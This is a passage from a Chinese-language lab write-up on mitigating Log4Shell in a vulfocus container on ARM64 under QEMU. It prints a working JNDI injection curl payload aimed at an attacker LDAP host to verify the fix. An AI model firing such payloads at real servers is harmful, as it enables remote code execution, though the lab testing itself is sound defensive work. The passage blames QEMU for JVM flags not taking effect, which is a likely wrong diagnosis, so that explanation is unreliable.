仅对必要的部分进行最小限度的修改


## 6.3 验证漏洞修复

验证漏洞修复是否成功，我们需要再次尝试利用这个漏洞：

```bash
# 尝试利用漏洞（现在应该不会成功）
curl -X GET "http://10.37.133.3:26228/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQK}"

# 漏洞修复成功时，服务器会正常响应，
# 但不再处理 JNDI 查找，因此攻击者的命令不会被执行
```


通过上述步骤，log4j 漏洞将被永久修复，应用将不再易受 JNDI 注入攻击。这种修复方法通过从底层库中删除有问题的代码，而不是仅仅依赖配置参数来禁用功能，提供了最可靠的保护。


# 出现的问题解决

## 1. mac运行vulfocus容器出现编译错误

在ARM64设备上尝试运行vulfocus容器时，容器会在启动后立即退出，通过 `docker logs`查看发现错误信息为 `exec /bin/sh: exec format error`。这是因为容器中的可执行文件是为x86_64架构编译的，无法在ARM64架构上直接执行。

解决的关键步骤包括：

1. **安装QEMU用户态模拟** ：提供二进制跨架构翻译的基础
2. **配置binfmt支持** ：使用tonistiigi/binfmt工具配置内核支持多架构二进制执行
3. **指定容器运行平台** ：通过 `platform: linux/amd64`明确告知Docker使用x86_64模拟

这种解决方案的优点是不需要重新构建容器镜像，可以直接使用现有x86_64镜像；缺点是会有一定的性能开销，因为需要通过QEMU进行指令转换。

## 2. 为缓解 Log4j 漏洞，先尝试通过环境变量添加 JVM 参数禁用 JNDI 查找重启容器，但验证发现参数未正确应用，可能因 QEMU 转译时环境变量展开问题，后直接在命令行添加参数重启容器，参数成功应用，总结出跨架构容器中直接用命令行指定参数更可靠。


### 重新启动并添加JVM参数来禁用JNDI查找

```bash
# 移除旧容器但保留其名称以重用
docker rm objective_driscoll

# 使用相同的镜像启动新容器，但添加安全参数
docker run -d --name objective_driscoll \
  -e JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true" \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  /bin/sh -c "java ${JAVA_OPTS} -jar /demo/demo.jar"
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker run -d --name objective_driscoll \
  -e JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true" \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  /bin/sh -c "java ${JAVA_OPTS} -jar /demo/demo.jar"
WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
bfca568f93133cae399687bb3b1978a3aecad223df2fa4dabb4b7fdead10c954
```

### 验证JVM参数是否生效

```bash
docker exec objective_driscoll ps aux | grep java
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker exec objective_driscoll ps aux | grep java
root           1  0.0  0.6 230684 13300 ?        Ssl  15:17   0:00 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /bin/sh /bin/sh -c java  -jar /demo/demo.jar
root           8 95.3 21.4 4087404 432784 ?      Sl   15:17   0:41 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -jar /demo/demo.jar
```

通过ps aux命令查看进程状态，我们可以发现：

```bash
root           1  0.0  0.6 230684 13300 ?        Ssl  15:17   0:00 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /bin/sh /bin/sh -c java  -jar /demo/demo.jar
root           8 95.3 21.4 4087404 432784 ?      Sl   15:17   0:41 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -jar /demo/demo.jar
```

这表明：

JVM安全参数未被正确应用到Java命令中
容器通过QEMU进行x86_64到ARM64的二进制转译执行
环境变量展开可能在QEMU转译过程中出现问题

```bash
# 重新启动容器，直接在命令行中添加安全参数
docker run -d --name objective_driscoll \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker run -d --name objective_driscoll \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
084815a8e54d2df4be58335c743c8934b065dcc73ae32d4dbdaafe014eff6b62
                                                                                        
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker exec objective_driscoll ps aux | grep java
root           1 91.8 10.9 3717788 221836 ?      Ssl  15:24   0:10 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
```

从输出中我们可以看到：

安全参数成功应用 - 所有三个关键参数`(-Dlog4j2.formatMsgNoLookups=true、-Dcom.sun.jndi.ldap.object.trustURLCodebase=false和-Dlog4j2.disableJndi=true)`现在都出现在Java进程的命令行中。

QEMU转译执行 - 进程是通过`/usr/libexec/qemu-binfmt/x86_64-binfmt-P`在ARM64主机上运行x86_64二进制文件。注意命令行中同时出现了java和参数之前的java，这是QEMU转译的特殊情况。

架构转译特性 - 进程使用了大量内存(3717788 KB ≈ 3.7GB)，CPU使用率也较高(91.8%)，这是由于架构转译带来的额外开销。

改进总结

1. 直接命令行参数vs环境变量：在跨架构容器中，直接在命令行中指定JVM参数比通过环境变量更可靠，因为环境变量可能在QEMU转译层中丢失或未正确传递。

2. 验证参数应用：通过ps aux命令查看进程参数是确认安全缓解措施是否生效的关键步骤，不应该省略。

3. 跨架构注意事项：在ARM64上运行x86_64容器时，性能会有所下降，且某些行为可能与原生架构有所不同，这需要在实际操作和排错中特别注意。

这种方法成功应用了所有安全参数，有效缓解了Log4j漏洞，即使在跨架构环境中也能正常工作